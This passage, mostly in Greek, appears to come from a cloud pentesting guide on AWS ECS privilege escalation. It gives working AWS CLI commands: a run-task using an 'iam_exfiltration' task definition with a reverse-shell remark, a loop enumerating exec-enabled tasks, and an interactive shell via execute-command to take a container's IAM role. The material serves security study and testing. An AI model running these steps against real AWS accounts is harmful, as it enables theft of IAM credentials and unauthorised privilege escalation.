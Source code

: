 ```bash
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Ένας επιτιθέμενος με το **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** μπορεί να **εκτελέσει εντολές** μέσα σε ένα τρέχον κοντέινερ και να εξάγει τον IAM ρόλο που είναι συνημμένος σε αυτό (χρειάζεστε τις άδειες περιγραφής επειδή είναι απαραίτητο να εκτελέσετε το `aws ecs execute-command`).\
Ωστόσο, για να το κάνετε αυτό, η κοντέινερ πρέπει να εκτελεί τον **ExecuteCommand agent** (ο οποίος από προεπιλογή δεν είναι).

Επομένως, ο επιτιθέμενος θα μπορούσε να προσπαθήσει να:

* **Προσπαθήσει να εκτελέσει μια εντολή** σε κάθε τρέχον κοντέινερ
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
* Αν έχει **`ecs:RunTask`**, εκτελέστε μια εργασία με `aws ecs run-task --enable-execute-command [...]`
* Αν έχει **`ecs:StartTask`**, εκτελέστε μια εργασία με `aws ecs start-task --enable-execute-command [...]`
* Αν έχει **`ecs:CreateService`**, δημιουργήστε μια υπηρεσία με `aws ecs create-service --enable-execute-command [...]`
* Αν έχει **`ecs:UpdateService`**, ενημερώστε μια υπηρεσία με `aws ecs update-service --enable-execute-command [...]`

Μπορείτε να βρείτε **παραδείγματα αυτών των επιλογών** σε **προηγούμενες ενότητες privesc ECS**.

**Πιθανές Επιπτώσεις:** Privesc σε διαφορετικό ρόλο που συνδέεται με τα κοντέινερ.
